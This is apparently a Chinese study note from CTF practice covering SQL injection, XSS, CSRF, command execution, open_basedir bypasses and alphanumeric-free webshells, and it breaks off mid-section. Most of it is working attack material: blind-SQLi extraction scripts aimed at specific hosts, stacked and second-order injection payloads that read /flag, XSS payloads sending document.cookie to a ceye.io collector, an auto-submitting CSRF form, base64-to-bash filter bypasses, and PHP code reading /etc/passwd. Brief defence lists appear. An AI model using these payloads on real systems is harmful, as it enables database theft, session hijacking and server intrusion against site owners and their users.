


# web漏洞

## sql注入

### 原理

简单来说就是，对用户传入的内容不进行过滤判断导致存在恶意sql语句进入，造成字符串的闭合以及重新构造出攻击者需要的新语句，从而导致出现sql注入攻击

以上只是sql注入的一种

还有比如盲注：根据反应做出判断我们所输入的语句是否正确，从而获取数据

再比如报错注入，宽字节注入等

### 过滤

#### 过滤空格

代替%0a %0b %0c %0d %09 %a0 /**/ ()

#### 将特定字符替换为空--双写绕过

比如select被代替为空 即可写成seselectlect

主要是针对使用了str_replace()方法

#### 大小写匹配

在数据库中对于关键字不区分大小写，因此只匹配纯大写纯小写的关键字，就可以使用大小写穿插代替，比如SELECT --- sEleCT

#### 正则匹配

se/***/lect

#### 替换了单引号或双引号，忘记反斜杠

如此注入点

```
select from wp_news where id = '可控点1' and title = '可控点2'
```

就可以这样构造绕过

```
select from wp_news where id = 'a\' and title = 'or sleep(1)#'
```

显然第一个可控点处\转义了 ' ，使得可控点2的前单引号和可控点1的前单引号匹配，而可控点2的后单引号逃逸，从而被#注释，使得可控点2中的字符逃逸出来，进入了select语句中，成为单独的数据库语句

#### 逃逸引号

通常会对用户输入全局的做一次addslashes，即转义如单引号、反斜杠等字符，如“ ’ ”变为“ \‘ ”

#### 编码解码

数据处于编码状态，引号无法被转义，解码后如果直接进入SQL语句即可造成注入，如宽字节注入

### 一些常用函数

#### right left

就是分别用来读取信息左右两半的信息

#### substr limit

### 时间盲注

先介绍几个关键的时间延时函数

#### sleep()

```
sleep(x)
select sleep(5);
```

#### benchmark()重复执行某表达式

```
benchmark(t,exp)

select benchmark(count,expr)重复执行count次expr表达式，从而处理时间变长，产生延迟
比如
select benchmark(1000000,encode("hello","good"));
select benchmark(5000000,md5('test'));
```

#### 笛卡尔积

```
笛卡尔积（因为连接表是一个很耗时的操作）
  A * B = A和B中每个元素的组合所组成的集合，就是连接表
  select count(*) from information_schema.columns A, information_schema.columns B, information_schema.tables C
  select * from table_name A, table_name B
  select * from table_name A, table_name B，table_name C
  select count(*) from table_name A, table_name B，table_name C  表可以是同一张表
```

#### GET_LOCK加锁

函数用来创建一个命名锁，在服务器内是唯一的锁，如果一个会话通过GET_LOCK获得一个锁，那么其他会话在尝试获取同名的锁会被阻塞，直到锁被释放

```
SELECT GET_LOCK('lock_name', timeout);
lock_name锁的名称
timeout等待获取锁的超时时间，若设为0，则函数会立即返回，不会等待锁释放
```

#### RLIKE REGEXP正则匹配

通过rpad或repeat构造长字符串，加以计算量大的pattern，通过repeat的参数可以控制延时长短

```
select rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',30),'b');
```

正则语法：

- .：匹配任意单个字符
- *：匹配0个或多个前一个得到的字符
- []：匹配任意一个[]内的字符，[ab]*可匹配空串、a、b或者由任意个a和b组成的字符串
- ^：匹配开头，如^s匹配以s或者s开头的字符串
- \$：匹配结尾，如s$匹配以s结尾的字符串
- {n}匹配前一个字符n次

RPAD函数rpad(str, len, padstr)

- 用字符串padstr对str进行右边填补直至他的长度达到len个字符长度，然后返回str。
- 如果str的长度长于len，那么它将被截断到len个字符
  ```
  SELECT RPAD('hi',5,'?'); -> 'hi???'
  ```

REPEAT(str, times)：复制字符串times

那么如何使用呢

```
sleep(5)
类比于
concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b'
```

#### 脚本

这里就不使用全部函数，就使用最基础的sleep来使用

```python
import requests
import time
url="http://175.22.3.26/details.php?action=show&oid="
result=''
i=0
while True:
    i+=1
    max=127
    min=32
    while min<max:
        mid=(max+min)>>1
        #p='if(ascii(substr((select password from ctfshow_user5 limit 24,1),{},1))>{},sleep(2),0)--+'.format(i,mid)
        p='if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database() limit 24,1),{},1))>{},sleep(2),0)--+'.format(i,mid)
        st=time.time()
        r=requests.get(url+p)
        tc=time.time()-st        #获取时间差
        if tc>=0.5:              #时间差大于0.5，则说明所判断字符大于mid
            min = mid + 1
        else:
            max = mid
    if min!=32:
        result+=chr(min)
        print(result)
    else:
        break
```

<br/>

### 普通盲注

根据页面返回结果来判断，下面的脚本就是当正确时回应的是“不存在”

```python
import requests

url = "http://87ea20a3-3c7f-47b6-a658-96acc4b12101.challenge.ctf.show/index.php"

result = ""
i = 0

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) >> 1
        payload = "select load_file('/flag')"
        params = {
            'username': f"1' or if(ascii(substr(({payload}),{i},1))>{mid},1,0) #",
            'password': '1',
            'action' : 'check'
        }

        r = requests.get(url,params=params)
        #print(r.text)
        if "不存在" not in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)


```

### 报错注入

其他固定不变，主要是中间内容

select 字段名 from 表名

可以替换成任何事物

```
id=1' or updatexml(1,concat(0x7e,(select 字段名 from 表名),0x7e),1)%23
```

### 堆叠注入

这里我以之前做过的一道题目来说明

[强网杯 2019]随便注

buuctf或者xctf都有该题环境

打开后，随便测试一下看过滤了什么，输入select看回应

发现最正常的注入都是实现不了的

那么就是堆叠注入尝试一下

```
查看数据库
-1';show databases;#
```


可以看到，但其实在堆叠中意义不大

那么继续查看表明

```
-1';show tables;#
```


看下各表中存在什么字段

```
-1';show columns from words;#
```


```
-1';show columns from `1919810931114514`;#
这里之所以又多了``
是因为表名为数字，直接单纯的sql语句是不会将纯数字解析为表名，必须带上
反引号``，使得被解析
```


可以看到flag在此，但聪明的宝贝可以发现，并没有显示字段的具体内容，那该怎么办

payload1：

1. rename把words表改名为其他表名
2. 把1919810931114514表改为words
3. 新的words表添加新的列名id
4. 将flag改名为data

```
1'; rename table words to word1; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key; alter table words change flag data varchar(100);#
```


- alter：修改已知表的列（添加add 修改alter，change 删除drop）

**payload2：**

由于select被过滤了，所以先将select * from \`1919810931114514`进行16进制编码，在构造payload

```
-1';SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;
prepare execsql from @a;excute execsql
```

- mysql变量不用事先声明，有的时候直接用@变量名即可，设置值的话就使用set即可，所以就是给a赋值

**payload3：**

使用handler，可以类似于select，但是handler独属于mysql的且是一行行查找

从而构造payload

```
-1';handler `1919810931114514` open as `a`;handler `a` read next;#
```

<br/>

### 二次注入

简单来说就是通过订购订单来填写信息，然后将恶意sql语句存在数据库中，然后再修改订单中进行触发

说这么多其实也不好明白，再举一道我之前做过的题目吧

[CISCN2019 华北赛区 Day1 Web5]CyberPunk也是buu上存在的环境

具体的不做赘述，只说最后的注入过程

```
 "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];
```

以上是我们的触发点，位于修改页面，那我们显然是不可能直接去修改页面的，那么此处就是二次注入，先在订单预购处，写入信息，然后去修改页面触发


前两个随便写

最后地址就是注入点

不过由于长度输出受限制，所以要利用substr来输出前一半和后一半

```
d1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,30)),0x7e),1)#
d1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),30,60)),0x7e),1)#
```

直接去提交订单页面分别输入两个不同的用户和我们地址，然后去修改页面触发即可

<br/>


就没什么好说的了

### 最普通的手注

简单的找了一个靶场进行其中一种的测试

首先判断字段数


发现字段数为2

构造语句

```
1’ union select 1,2#
```


<br/>

```
查询数据库名
1' union select 1,database()#
```


查询表名

```
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema="pikachu"#
```


查询字段名

```
1' union select 1,group_concat(column_name) from information_schema.columns where table_schema="pikachu" and table_name="users"#
```



查询对应数据

```
1' union select 1,group_concat(id,username,password,level) from pikachu.users#
```


以此便查询到对应用户的信息

### 后果

- 用户个人信息泄露，如身份证号等
- 用户管理员账号密码泄露，从而进入后台，进行下一步的入侵破坏
- 修改数据信息等
- 一些简单的命令执行，文件读取等

## xss

### 原理

利用页面的漏洞，攻击者注入恶意代码，当用户访问该网页时，会加载并触发恶意代码从而实现攻击者的目标

### 一些常见标签

具体语句http://ceye.io/records/http先在此网站注册获取临时域名

```html
<script>
var img=document.createElement("img"); img.src="http://你的ceye地址/"+document.cookie;
</script>

<svg onload="window.open('http://你的ceye地址/'+document.cookie)">

<svg onload="window.open('http://你的ceye地址/'+document.cookie)">

<iframe onload="window.open('http://你的ceye地址/'+document.cookie)"></iframe>

<body onload="window.open('http://你的ceye地址/'+document.cookie)">
```

以上语句的输入都可以去触发xss漏洞

一些常见标签

```html
<script>alert("xss");</script>
```

```html

```

```html
<input onfocus="alert('xss');">
	竞争焦点，从而触发onblur事件
	<input onblur=alert("xss") autofocus><input autofocus>
	
	通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上，触发焦点事件，无需用户去触发
	<input onfocus="alert('xss');" autofocus>
```

```html
<details ontoggle="alert('xss');">
	使用open属性触发ontoggle事件，无需用户去触发
	<details open ontoggle="alert('xss');">
```

```html
<svg onload=alert("xss");>
```

```html
<select onfocus=alert(1)></select>
	通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上，触发焦点事件，无需用户去触发
	<select onfocus=alert(1) autofocus>
```

```html
<iframe onload=alert("xss");></iframe>
```

```html
<video><source onerror="alert(1)">
```

```html
<audio src=x  onerror=alert("xss");>
```

```html
<body/onload=alert("xss");>
利用换行符以及autofocus自动去触发onscroll事件，无需用户去触发
<body onscroll=alert("xss");><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>
```

```html
<textarea onfocus=alert("xss"); autofocus>
```

```html
<keygen autofocus onfocus=alert(1)> //仅限火狐
```

```html
<marquee onstart=alert("xss")></marquee> //Chrome不行，火狐和IE都可以
```

```html
<isindex type=image src=1 onerror=alert("xss")>//仅限于IE
```

```html
利用link远程包含js文件
在无csp情况下才可以
<link rel=import href="http://127.0.0.1/1.js">
```

#### javascript伪标签

```html
<a href="javascript:alert(`xss`);">xss</a>
```

```html
<iframe src=javascript:alert('xss');></iframe>
```

```html
//IE7以
```

```html
<form action="Javascript:alert(1)"><input type=submit>
```

#### 其他

```html
 // IE7以下
<div style="color:rgb(''�x:expression(alert(1))"></div> //IE7以下
<style>#test{x:expression(alert(/XSS/))}</style> // IE7以下
```

```html
<table background=javascript:alert(1)></table> //在Opera 10.5和IE6上有效
```

### 过滤与绕过

#### 过滤空格

用/代替空格

```

```

#### 过滤关键字

##### 大小写绕过

```

```

##### 双写关键字

有些waf可能替换一次且替换为空，那么就可以使用双写关键字绕过

```
<imimgg srsrcc=x onerror=alert("xss");>
```

##### 字符拼接

###### 利用eval

```

```

###### 利用top

```
<script>top["al"+"ert"](`xss`);</script>
```

##### 其他字符混淆

有的waf可能是用正则表达式去检测是否有xss攻击，如果我们能fuzz出正则的规则，就可以使用其他字符去混淆注入代码

```
可利用注释、标签的优先级等
1.<<script>alert("xss");//<</script>
2.<title>> //因为title标签的优先级比img的高，所以会先闭合title，从而导致前面的img标签无效
3.<SCRIPT>var a="\\";alert("xss");//";</SCRIPT>
```

##### 编码绕过

###### Unicode编码绕过

```


```

###### url编码绕过

```


<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
```

###### ascii码绕过

```

```

###### hex绕过

```

```

###### 八进制

```

```

###### base64绕过

```

```

```
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```

#### 过滤双引号，单引号

- 如果是html标签中，可以不使用引号

- 如果是js中，可以用反引号代替单双引号

  ```
  
  ```

- 使用编码绕过，如上

#### 过滤括号

使用throw绕过

```
<svg/onload="window.onerror=eval;throw'=alert\x281\x29';">
```

#### 过滤url地址

##### 使用url编码

```

```

##### 使用IP

###### 十进制IP

```

```

###### 八进制IP

```

```

###### hex

```

```

###### html标签中用//可以代替http://

```

```

###### 使用\\\

注意在windows下\本身就有特殊用途，是一个path写法，所以\\在windows是file协议，在linux是当前域的协议

###### 使用中文逗号代替英文逗号

在域名中输入中文句号浏览器会自动转化成英文逗号

```
//会自动跳转到百度
```


### 反射性xss

登录http://ceye.io/profile，获取自己的虚拟网址

然后构造语句

```
<script>window.open('http://jr3utw.ceye.io/'+document.cookie)</script>
```


回到http://ceye.io/records/http


就可以获取flag或者一些信息

### 存储型xss

这里还以题说明

ctfshow web327


话不多说，先打开http://ceye.io/profile获取自己的地址

```
<script>window.open('http://jr3utw.ceye.io/'+document.cookie)</script>
```


得到flag

### 后果

- 获取权限
- 获取cookie和会话密钥，从而能够盗取用户账户登录

### 防止xss

- 过滤威胁字符，以及转义& < > " ' /等危险字符
- HTTP-only Cookie：禁止JavaScript读取某些敏感Cookie，攻击者完成XSS注入后也无法窃取此cookie
- 设置CSP
- 输入内容长度限制

## CSRF

### 原理

利用浏览器信任用户cookie，去欺骗浏览器从而造成危害

即用户先访问正常浏览器产生cookie，带着该cookie访问危险网站，使得危险网站获取安全cookie，攻击者带着安全cookie去访问正常网站

### CSRF(get)

进行登录，获取cookie，然后里面存在一个修改信息的按键，那么就可以通过这个让用户修改

然后你就会发现这是一个链接，那我们就可以将此链接发给用户，当他点击之后就会对他的账户修改

通过抓包观察参数信息

那么就可以伪造链接

```
http://your-ip/pikachu-master/vul/csrf/csrfget/csrf_get_edit.php?sex=a&phonenum=a&add=a&email=a&submit=submit
```

当某用户点击后就会修改它的信息

### CSRF(POST)

如上，抓包获取信息

那么就可以构造一个html去诱惑用户点击

```html
<html>
<head>
<title>Form表单自动提交</title>
<!-- 加载完页面自动点击submit提交 -->
<script type="text/javascript">
	window.onload = function(){
		//alert("windows_onload_exec");
		autoSubmit();
		window.location.href="http://www.fucguigui.com"; //提交完成跳转到的页面,为了伪装
	} 
</script>
<script type="text/javascript">
	function autoSubmit(){
		//alert('autosubmit_start');
 		document.getElementById("submit").click();
		//alert('after_submit');
		}
</script>
</head>
<body >
<!-- 隐藏的表单 -->
<form id='myForm' action="http://www.xxx.com/vul/csrf/csrfpost/csrf_post_edit.php" method="post">
	<input type='hidden' name='sex' value='boy'>
	<input type='hidden' name='phonenum' value='evil'>
	<input type='hidden' name='add' value='fake_addr'>
	<input type='hidden' name='email' value='evil_form@admin.com'>
	<input id='submit' type="submit" name='submit' value="submit" style="display:none;"></input>
</form>
</body>
</html>
```

### 危害

盗用用户身份，发送恶意请求，比如以用户身份发送邮件，发消息，盗取账号，购买商品等，造成个人隐私泄露以及财产安全

### 防范

- 增加token验证
  - 关键操作加token，token必须随机，次次不一样
- 安全会话管理（避免会话被利用）
  - 客户端不保存敏感信息，如身份认证信息
  - 测试关闭、退出的会话过期机制
  - 设置会话过期机制，如15分钟无操作，自动登录超时
- 访问控制安全管理
  - 敏感信息修改要求二次认证
  - 信息修改用post，而不是get
  - 通过http头部中的referer来限制原页面
- 增加验证码

## RCE

### 原理

代码中存在各种执行外部程序的函数，当输入内容未经过过滤，就会直接被执行，从而造成后果

ping命令执行

eval执行系统函数

具体情况还是有很多的

比如无数字字母执行等，以及各种各样的过滤以及函数限制，比如绕过open_basedir

### 过滤绕过

#### 管道符

windows

```
|直接执行后面的语句
|| 如果前面命令是错的就执行后面的语句，否则只执行前面的语句
& 前面和后面命令都要执行，无论前面真假
&& 如果前面为假，后面命令也不执行，如果前为真则执行两条命令
```

Linux

```
;前后命令均执行，无论真假
|直接执行后面的语句
||若前者为假则执行后面语句，否则只执行前面的语句
&前后命令都执行，无论前者真假
&&若前者为假，后者也不执行；若前者为真则执行两条命令
```

#### 空格过滤

linux

```
{cat,flag.txt}
cat${IFS}flag.txt
cat$IFS$9flag
cat<flag
cat<>flag
kg=$'\x20flag.txt'&&cat$kg(\x20转换成字符串就是空格)
```

Windows

```
type.\flag
type,flag
echo,123456
```

主要还就是

```
< <> 重定向符
%09(需要php环境)
${IFS}
$IFS$9
{cat,flag.php} //用逗号实现了空格功能
%20
```

#### 命令分隔符

linux：

```
%0a %0d ; & | &&　||
```

windows

```
%0a & | %1a
```

#### 花括号用法

```
eg.
{ls,}
{cat,flags}
{mv,flags,flag}
```

#### 黑名单绕过

##### 拼接绕过

```
eg:
a=l;b=s;$a$b
a=fl;b=ag;cat $a$b
```

##### 编码绕过

```
base64:
echo MTIzCg==|base64 -d 其将会打印123
echo "Y2F0IC9mbGFn"|base64-d|bash ==>cat /flag

hex:
echo "636174202f666c6167" | xxd -r -p|bash ==>cat /flag
```

##### 单双引号绕过

```
ca''t flag
ca""t flag
```

##### 反斜杠绕过

```
ca\t fl\ag
```

##### 正则（假设/bin/cat:test:是一个目录）

```
/???/?[a][t] ?''?''?''?''
/???/?at ????
/???/?[a]''[t] ?''?''?''?''
```

##### $1 $2等和$@

```
$# 是传给脚本的参数个数
$0 是脚本本身的名字
$1 是传递给该shell脚本的第一个参数
$2 是传递给该shell脚本的第二个参数
$@ 是传给脚本的所有参数的列表
$* 是以一个单字符串显示所有向脚本传递的参数，与位置变量不同，参数可超过9个
$$ 是脚本运行的当前进程ID号
$? 是显示最后命令的退出状态，0表示没有错误，其他表示有错误
```

##### 借用已有字符串

```
比如linux内置变量，再通过截取方式得到需要的字符
```

#### 长度限制

利用文件构造方法

比如

linux可以用1>a 创建名为a的空文件

ls -t>test会将目录按时间排序后写进文件中

sh命令可以从一个文件中读取命令来执行

```
root@kali:~/桌面# echo "flag{hahaha}" > flag.txt
root@kali:~/桌面# touch "ag"
root@kali:~/桌面# touch "fl\\"
root@kali:~/桌面# touch "t \\"
root@kali:~/桌面# touch "ca\\"
root@kali:~/桌面# ls -t
'ca\'  't \'  'fl\'   ag   flag
root@kali:~/桌面# ls -t >a     #将 ls -t 内容写入到a文件中
root@kali:~/桌面# sh a
a: 1: a: not found
flag{hahaha}
a: 6: flag.txt: not found

    \是指换行
    ls -t将文件按时间排序输出
    sh命令可以从一个文件中读取命令来执行
```

#### 内联执行

命令替代，大部分Unix shell以及编程语言如php，ruby德国都以成对反引号做指令替代，也就是执行反引号包围的命令

```
cat$IFS$9`ls`
cat$IFS$9$(ls)
(内联，就是将``或$()内命令的输出作为输入执行)
```

#### 通配符

```
常用的linux shell通配符
*=>匹配任意长度字符
?=>匹配任意单个字符
[list]=>匹配指定范围(list)内的任意字符，也可以是单个字符组成的集合
[^list]=>匹配指定范围外的任意单个字符或字符集合
[!list]=>[^list]
{str1,str2}匹配str1或者str2
```

上面所有通配符只匹配单层路径，不能跨目录匹配，既无法匹配子目录里面的文件

也就是说?或*这样的通配符，不能匹配路径分隔符(/)

若要匹配子目录里面的文件，可以写成：ls */\*.txt

#### 查看命令

```
cat
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
grep
1、在当前目录中，查找后缀有 file 字样的文件中包含 test 字符串的文件，并打印出该字符串的行。此时，可以使用如下命令：
grep test *file
strings
```

#### 命令执行函数

```
system()
passthru()
exec()
shell_exec()
popen()
proc_open()
pcntl_exec()
反引号 同shell_exec() 
```

详解

首先php是可以禁用这些函数，在php.ini中搜索disable_functions

参数解读

```
$command是要执行的命令
$output是获得执行命令中的每一个输出值
$return是获取执行命令后是否执行成
```

##### system

```
system($command,$return)
```

执行系统目录/php自定义命令，并输出结果，同步进程，执行完后继续后续代码执行

##### exec

```
exec($command,$outpub,$return)
```

exec输出的是命令执行结果的最后一行内容，如果你需要获取未经处理的全部输出数据，使用passthru

##### passthru

```
passthru($command,$return_var)
```

##### shell_exec

```
shell_exec($command)
```

##### 反引号`

```
echo `command`
```

#####  popen pclose

```
$storm=popen($command,'w');//打开一个进程通道
pclose($storm);
```

popen中的参数w可以有r/w，r为读文件，w为写文件

pclose要关闭他的返回值，不能直接关闭popen，如果写在一起会导致同步执行进程，可能造成进程卡死

##### proc_open

```
proc_open (string $cmd ,array $descriptorspec ,array &$pipes [, string $cwd [, array $env [, array $other_options ]]])
```

 与popen函数类似，但是可以提供双向管道

##### pcntl_exec

```
void pcntl_exec ( string $path [, array $args [, array $envs ]] )
```

path是可执行二进制文件路径或一个在文件第一行指定了 一个可执行文件路径标头的脚本 args是一个要传递给程序的参数的字符串数组。 pcntl是linux下的一个扩展，需要额外安装，可以支持 php 的多线程操作。 pcntl_exec函数的作用是在当前进程空间执行指定程序，版本要求：PHP > 4.2.0

#### 绕过preg_match匹配

可以使用%0a换行绕过preg_match

### php绕过opem_basedir限制操作文件(借鉴之前所翻阅文章所记录)

#### 预备点

##### open_basedir

是php.ini中一个配置选项，将用户访问文件的活动范围限制在指定的区域

假设open_basedir=/home/wwwroot/home/web1/:/tmp/，那么通过web1访问服务器的用户就无法获取服务器上除了/home/wwwroot/home/web1/和/tmp/这两个目录以外的文件。
注意用open_basedir指定的限制实际上是前缀,而不是目录名。
举例来说: 若"open_basedir = /dir/user", 那么目录 "/dir/user" 和 "/dir/user1"都是
可以访问的。所以如果要将访问限制在仅为指定的目录，请用斜线结束路径名。

##### 符号链接

符号链接又叫软链接,是一类特殊的文件，这个文件包含了另一个文件的路径名(绝对路径或者相对路径)。
路径可以是任意文件或目录，可以链接不同文件系统的文件。在对符号文件进行
读或写操作的时候，系统会自动把该操作转换为对源文件的操作，但删除链接文件时，系统仅仅删除链接文件，而不删除源文件本身

#### 命令执行函数

由于open_basedir的设置对system等命令执行函数是无效的，所以我们可以使用命令执行函数来访问限制目录

首先创建一个目录

```
/home/puret/test/
```

且在该目录下新建一个1.txt内容为abc

```
nano 1.txt
```

再在该目录下创建一个目录命名为b

```
mkdir b
```

并且在该目录下创建一个1.php文件内容为

```
<?php
     echo file_get_contents("../1.txt");
?>
```

并且在php.ini设置好open_basedir

```
open_basedir = /home/puret/test/b/
```

执行1.php看是否会限制访问


显然无法直接读取open_basedir所规定以外的目录文件

尝试system函数绕过open_basedir限制来删除1.txt

编辑1.php为

```php
<?php
    system("rm -rf ../1.txt");
?>
```

先看看执行前情况


执行之后

成功绕过open_basedir来删除文件

但是一般都会被限制在disable_function当中

#### symlink函数

了解一下symlink函数

```
bool symlink ( string $target , string $link )
```

其建立一个指向target的名为link符号链接，一般来说target受限于open_basedir

在linux可以通过symlink完成一些逻辑上的绕过导致可以跨目录操作文件

首先在/var/www/html/1.php中编辑内容

```php
<?php
        mkdir("c");
        chdir("c");
        mkdir("d");
        chdir("d");
        chdir("..");
        chdir("..");
        symlink("c/d","tmplink");
        symlink("tmplink/../../1.txt","exploit");
        unlink("tmplink");
        mkdir("tmplink");
        echo file_put_contents("http://127.0.0.1/exploit");
?>
```

接着在/var/www/中新建一个1.txt文件内容为

```
abc
```

再来设置open_basedir

```
open_basedir = /var/www/html/
```

在html目录下编辑一个php脚本检验一下open_basedir

```php
<?php
    file_get_contents("../1.txt");
?>
```


显然无法访问

在执行1.php


成功读取到1.txt文件内容，逃脱了open_basedir限制

关键在于

```
symlink("tmplink/../../1.txt","exploit");
```

tmplink是一个符号链接文件，指向的路径是c/d，那么exploit指向路径就变成

```
c/d/../../1.txt
```

由于该路径在open_basedir范围内，所以exploit建立成功

然后删除tmplink符号链接文件再新建一个同名为tmplink文件夹，这是exploit指向路径为

```
tmplink/../../1.txt
```


由于此时tmplink变成一个真实存在文件夹，所以就变成了/var/www/tmplink/../../

然后在通过访问exploit即可直接读取到1.txt的文件内容

当然，针对symlink()只需要将它放入disable_function即可解决问题，所以我们需要寻求更多的方法。

#### glob伪协议

用于筛选目录的伪协议，但是其不受open_basedir限制

新建一个目录在/var/www/下命名为test

并且在/var/www/html/下新建t.php内容为

```php
<?php
 $a = "glob:///var/www/test/*.txt";
 if ( $b = opendir($a) ) {
    while ( ($file = readdir($b)) !== false ) {
          echo "filename:".$file."\n";
    }
    closedir($b);
  }
?>
```


成功绕过

#### 绕过过滤

##### 命令执行函数

var_dump(scandir('.')); 查询根目录文件

highlight_file('')查询文件内容

##### symlink()函数

```php
<?php
        mkdir("a");
        chdir("a");
        mkdir("c");
        chdir("c");
        mkdir("d");
        chdir("d");
        chdir("..");
        chdir("..");
        chdir("..");
        symlink("a/c/d","tmplink");
        symlink("tmplink/../../../1.txt","exploit");
        unlink("tmplink");
        mkdir("tmplink");
        echo file_put_contents("exploit");
?>
```

##### glob协议（只能查看根目录）

###### DirectoryIterator类

```php
code=?><?php $a=new DirectoryIterator("glob:///*");
foreach($a as $f){
echo ($f->__toString().'  ');
}
exit(0);
?>
```

###### opendir readdir

```php
code=?><?php
$a = "glob:///*;
if ( $b = opendir($a) ) {
    while ( ($file = readdir($b)) !== false ) {
        echo $file."<br>";
    }
    closedir($b);
}
?>
```

###### 其三

```php
<?php
printf('<b>open_basedir : %s </b><br />', ini_get('open_basedir'));
$file_list = array();
// normal files
$it = new DirectoryIterator("glob:///*");
foreach($it as $f) {
    $file_list[] = $f->__toString();
}
// special files (starting with a dot(.))
$it = new DirectoryIterator("glob:///.*");
foreach($it as $f) {
    $file_list[] = $f->__toString();
}
sort($file_list);
foreach($file_list as $f){
        echo "{$f}<br/>";
}
?>

```

##### 利用ini_set读取文件内容

```php
<?php
mkdir('tmpdir');
chdir('tmpdir');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
$a=file_get_contents('/etc/passwd');
var_dump($a);
?>
```

这里的chdir(".."); 数量根据具体环境修改，一般要求是如果咋ichdir一次就进入根目录位置，比如php文件的位置为/www/admin/localhost_80/wwwroot/html/下,那么就要使用五次chdir("..");

#### 例题

ctfshow web74

很明显提示open_basedir

那就是绕过读取文件目录

其一

```
c=?><?php $a=new DirectoryIterator("glob:///*");
foreach($a as $f){
echo ($f->__toString().'  ');
}
exit(0);
?>
```


其二

```
c=?><?php
 $a = "glob:///*";
 if ( $b = opendir($a) ) {
    while ( ($file = readdir($b)) !== false ) {
          echo "filename:".$file."\n";
    }
    closedir($b);
exit();
  }
?>
```


均可实现不再多说

### 无字母数字webshell

题目例子

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$code=$_GET['code'];
if(preg_match('/[a-z0-9]/i',$code)){
    die('hacker');
}
eval($code);
```

下面以命令system('ls')为例

#### 异或

```php
<?php
$myfile = fopen("xor_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[a-z0-9]/i'; //根据题目给的正则表达式修改即可
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)^urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);

```

```python
import requests
import urllib
from sys import *
import os
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("xor_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"^\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
   print(param)

```

php运行后生成一个txt文档，包括所有可见字符的异或构造结果

接着运行python脚本即可

将结果复制过去

#### 或

```php
<?php


